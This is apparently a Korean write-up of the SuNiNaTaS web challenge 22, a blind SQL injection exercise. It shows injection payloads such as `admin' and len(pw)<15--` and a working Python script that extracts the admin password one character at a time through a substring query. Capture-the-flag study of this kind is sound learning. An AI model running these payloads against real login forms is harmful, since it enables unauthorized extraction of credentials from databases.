 # [WEB] 22

### 초기화면
![초기화면](./img/22_1.png)
로그인 폼과 함께 메시지들이 있다.

이 문제는 블라인드sql인젝션이고 어떤 것들을 필터링하는가..


>#### [블라인드 SQL 인젝션](https://ko.wikipedia.org/wiki/SQL_%EC%82%BD%EC%9E%85#Blind_SQL_%EC%82%BD%EC%9E%85)
> -웹에서 SQL 삽입에 취약하나 데이터베이스 메시지가 공격자에게 보이지 않을 때 사용
>
>-평범한 SQL 삽입은 쿼리를 삽입하여 원하는 데이터를 한번에 얻어낼 수 있는 데에 비해 Blind SQL 삽입은 참과 거짓, 쿼리가 참일때와 거짓일 때의 서버의 반응 만으로 데이터를 얻어냄. 


---
### 풀이
![소스코드](./img/22_2.png)
페이지 소스코드에는 특별한 코드는 없고 힌트를 보면 id가 guest는 비번도 guest.

그리고 찾아야 하는 것은 admin의 pw


![체크](./img/22_3.png)
일단 id와 pw를 무작위로 입력해보면 "False"라는 메시지가 출력됨을 알 수 있다.

![체크](./img/22_4.png)
guest로 로그인을 하면 "OK"와 함께 id가 출력됨을 알 수 있다.
![체크](./img/22_5.png)
id에 주석문 처리 쿼리를 넘기면 잘 된다..

사실 #에 경우 되질 않는다. 이미 라이트업을 다 참조해서 실습하는 것이라 잘 되지만 실제로 공격시에는 이 페이지의 데이터베이스가 무엇인지를 여러 쿼리 시도를 통해 파악해야한다. 

이제 패스워드의 글자수를 파악해야 한다.

![글자수 파악](./img/22_6.png)

`admin' and len(pw)<15--` 이런 식으로 참이 되는 쿼리문을 찾아내서 범위를 좁혀나간다. 11보다 작지만 10보단 작지 않다는 범위를 찾아낼 수 있고 패스워드 길이가 10인 것을 파악했다.

여기서는 필터링 리스트를 일부 알려줬기에 and를 바로 활용했지만 and까지 필터링 했을 경우등을 감안해서 실제 공격시 다양한 패턴의 쿼리를 보내봐야 한다..len()의 경우도 DB에 따라 length()일 수도 있다.

10글자임을 알았으니 한글자씩 맞나 틀리나를 확인해야 한다. 오래 걸리기에 파이썬을 활용해서 자동화하여 알아낸다.

```python
# -*- coding: utf-8 -*- 
import requests 
# url
url = "http://suninatas.com/challenge/web22/web22.asp"
 
cookie = {"ASPSESSIONIDCSSCCCBB" : "KPFDBEICFONODJOEKNGCGIDL"}
wordlist = "abcdefghijklmnop1234567890ABCDEFGHIJKLMNOP<>?!@#$%^&*()_+"
result  = ""
 
 
print("써니스타스 22번")
print("블라인드 인젝션을 시작합니다.")
 
for i in range(0, 10):
    for k in range(0, len(wordlist)):
        query = "admin'and(substring(pw," + str(i+1) + ",1)='" + wordlist[k] + "')--"
        r = requests.get(url, params={'id': query, 'pw': 'penekGOD'}, cookies=cookie)
    
        if "OK" in r.text:
            print("[+]" + str(i+1) + "번째 비밀번호는 " + wordlist[k] + "입니다.")
            result += wordlist[k]
            break
 
print("[!]" + " 최종 비밀번호는 " + result + "입니다.")


##출처: https://penek.tistory.com/58 [꿈꾸는자칭 짱짱햌커.]
```
위의 출처에서 코드를 받아와서 사용했다. 

파이썬의 requests모듈을 이용해서 GET request를 보내고 그에 대한 response에서 결과가 참이면 OK가 나타남을 활용해서 패스워트를 알아낸다.

---

![authkey](./img/22_authkey.png)
소스코드를 실행시키면 비밀번호 획득!

[이어서 23](./23.md)
---
